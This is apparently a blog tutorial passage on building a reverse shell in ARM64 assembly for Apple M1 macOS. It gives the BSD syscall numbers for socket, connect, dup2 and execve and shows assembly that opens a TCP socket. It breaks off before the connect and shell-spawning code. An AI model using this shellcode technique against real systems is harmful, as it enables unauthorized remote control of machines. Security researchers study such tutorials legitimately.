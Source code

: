 ### few words about bind and reverse shell in ARM M1

So, in the other words, the bind-shell we already have works because it avoids two fragile things: a remote address and precise byte layout. Binding to `INADDR_ANY` is forgiving. Connecting requires a `16-byte` struct `sockaddr_in` with a correct `sin_len`, `sin_family`, network-order port, and a pointer that survives relocations. On Darwin (BSD) `sin_len` is not optional; endianness mistakes silently break connect. Also, building the structure in registers with many `movk/lsl` operations is brittle across pages and relocations - use `.data` + `adrp/add` for a predictable pointer. That's the practical rule you'll see repeated in this post.     

### practical example

Let's create simple reverse shell. Start in `_main` (or `_start` if you link differently). The code uses BSD syscall numbers that matched our working bind example: `97` for socket, `98` for connect, `90` for dup2, `59` for execve. These syscalls expect conventional `arm64` argument/return behavior: `x0..x7` for args, `x0` for return.      

So, we start as usual, open a TCP socket with `socket(AF_INET, SOCK_STREAM, 0)`:
```nasm
; create socket: socket(AF_INET, SOCK_STREAM, 0)
mov     x0, #2
mov     x1, #1
mov     x2, xzr
mov     x16, #97
svc     #0xffff
; check result in x0 (>=0)
cmp     x0, #0
blt     _exit_fail

; save socket fd
mov     x19, x0
```

BSD uses syscall `97` for socket. Return value in `x0` - negative means error. Store the socket FD in `x19`, which is callee-saved and safe across syscalls.    

Then we need to prepare `sockaddr_in`. This is where most connect PoCs die. On Linux you can omit `sin_len`; on macOS you can't. The structure must be exactly `16` bytes:    

![malware](/assets/images/180/apple-m1-180.png){:class="img-responsive"}    
